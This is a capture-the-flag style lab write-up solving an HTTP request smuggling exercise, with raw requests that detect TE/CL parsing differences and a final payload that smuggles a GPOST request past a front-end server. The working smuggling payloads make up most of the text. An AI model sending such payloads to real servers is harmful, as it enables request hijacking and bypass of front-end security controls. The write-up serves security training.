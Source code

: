 # HTTP request smuggling, obfuscating the TE header
# Objective
This lab involves a front-end and back-end server, and the two servers handle duplicate HTTP request headers in different ways. \
The front-end server rejects requests that aren't using the GET or POST method.\
To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`.

# Solution
## Analysis
### Determinig what the front-end is using
If front-end uses `Transfer-Encoding` header it should response with error, because `X` is not valid chunk size.
```
POST / HTTP/1.1
Host: 0a1e002003c7b59f8088f378007c00d2.web-security-academy.net
Cookie: session=zsmRbeHTY4pqBetlApmYJgbBsWpbnoWH
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7
Transfer-Encoding: chunked

4
test
X

```

|![](Images/image-11.png)|
|:--:| 
| *Error - Front-end is using Transfer Encoding header* |
|![](Images/image-12.png)|
| *Read timeout - Deletion of the extra line after X causes different error* |

### Determining what the back-end is using
This request after coming from front-end is striped of the `X` - the value of content length header is not valid (Changing it in the below payload does not change the response).

```
POST / HTTP/1.1
Host: 0a1e002003c7b59f8088f378007c00d2.web-security-academy.net
Cookie: session=zsmRbeHTY4pqBetlApmYJgbBsWpbnoWH
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

X

```

|![](Images/image-13.png)|
|:--:| 
| *No error - Back-end is using Transfer Encoding header* |

### Obfuscating transfer encoding header
Adding a second `Transfer-Encoding` header with invalid value forced back-end to ignore `Transfer-Encoding` header and evaluate `Content-Length` header instead. In the example below, the request after coming from front-end is striped of the `X` - the value of content length header is not valid. Because of this back-end waited for the mising byte which lead to time-out.

```
POST / HTTP/1.1
Host: 0a1e002003c7b59f8088f378007c00d2.web-security-academy.net
Cookie: session=zsmRbeHTY4pqBetlApmYJgbBsWpbnoWH
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked
Transfer-Encoding: invalid

0

X

```

|![](Images/image-14.png)|
|:--:| 
| *Time-out - Back-end now is using Content Length header* |

```
POST / HTTP/1.1
Host: 0a1e002003c7b59f8088f378007c00d2.web-security-academy.net
Cookie: session=zsmRbeHTY4pqBetlApmYJgbBsWpbnoWH
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: invalid

1
G
0


```

|![](Images/image-15.png)|
|:--:| 
| *Poisoning back-end* |

## Exploitation
```
POST / HTTP/1.1
Host: 0a1e002003c7b59f8088f378007c00d2.web-security-academy.net
Cookie: session=zsmRbeHTY4pqBetlApmYJgbBsWpbnoWH
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: invalid

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

x=1
0


```

`Content-Length: 11` - must be bigger (at least by one) then the actual size of the smuggled request payload. This ensures that it will be trigered (one byte of the normal request will be appened to the smuggled request).

```
x=1\r\n         +5
0\r\n           +3
\r\n            +2
```

|![](Images/image-16.png)|
|:--:| 
| *Request was smuggled* |
|![](Images/image-17.png)|
| *Content Length inside smuggled reqest must be bigger than the payload* |
